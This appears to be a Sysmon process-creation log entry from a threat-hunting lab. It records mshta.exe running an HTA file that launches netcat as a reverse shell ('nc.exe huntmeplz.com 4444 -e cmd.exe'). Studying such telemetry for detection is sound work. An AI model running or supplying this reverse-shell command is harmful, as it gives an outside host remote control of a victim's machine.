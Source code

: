 | **Field**             | **Value**                                                                                                                                                                      |
|-----------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| CommandLine           | `"C:\Users\victim\AppData\Local\Temp\nc.exe" huntmeplz.com 4444 -e cmd.exe`                                                                                                   |
| Company               | -                                                                                                                                                                              |
| CurrentDirectory      | `C:\Users\victim\Downloads\`                                                                                                                                                  |
| Description           | -                                                                                                                                                                              |
| EventID               | 1                                                                                                                                                                              |
| FileVersion           | -                                                                                                                                                                              |
| Hashes                | MD5=523613A7B9DFA398CBD5EBD2DD0F4F38, SHA256=3E59379F585EBF0BECB6B4E06D0FBBF806DE28A4BB256E837B4555F1B4245571, IMPHASH=567531F08180AB3963B70889578118A3 |
| Image                 | `C:\Users\victim\AppData\Local\Temp\nc.exe`                                                                                                                                   |
| IntegrityLevel        | Medium                                                                                                                                                                        |
| LogonGuid             | `{4bbef3ae-81e4-630c-b94b-100000000000}`                                                                                                                                      |
| LogonId               | `0x104bb9`                                                                                                                                                                    |
| OriginalFileName      | -                                                                                                                                                                              |
| ParentCommandLine     | `"C:\Windows\SysWOW64\mshta.exe" "C:\Users\victim\Downloads\update.hta" {1E460BD7-F1C3-4B2E-88BF-4E770A288AF5}{1E460BD7-F1C3-4B2E-88BF-4E770A288AF5}`                           |
| ParentImage           | `C:\Windows\SysWOW64\mshta.exe`                                                                                                                                               |
| ParentProcessGuid     | `{4bbef3ae-cbcf-630c-010f-000000000e00}`                                                                                                                                      |
| ParentProcessId       | 8820                                                                                                                                                                          |
| ParentUser            | SIGHUNT\victim                                                                                                                                                                |
| ProcessGuid           | `{4bbef3ae-cbcf-630c-040f-000000000e00}`                                                                                                                                      |
| ProcessId             | 6688                                                                                                                                                                          |
| Product               | -                                                                                                                                                                              |
| RuleName              | -                                                                                                                                                                              |
| TerminalSessionId     | 2                                                                                                                                                                              |
| User                  | SIGHUNT\victim                                                                                                                                                                |
| UtcTime               | 2022-08-29 14:23:11.434                                                                                                                                                        |
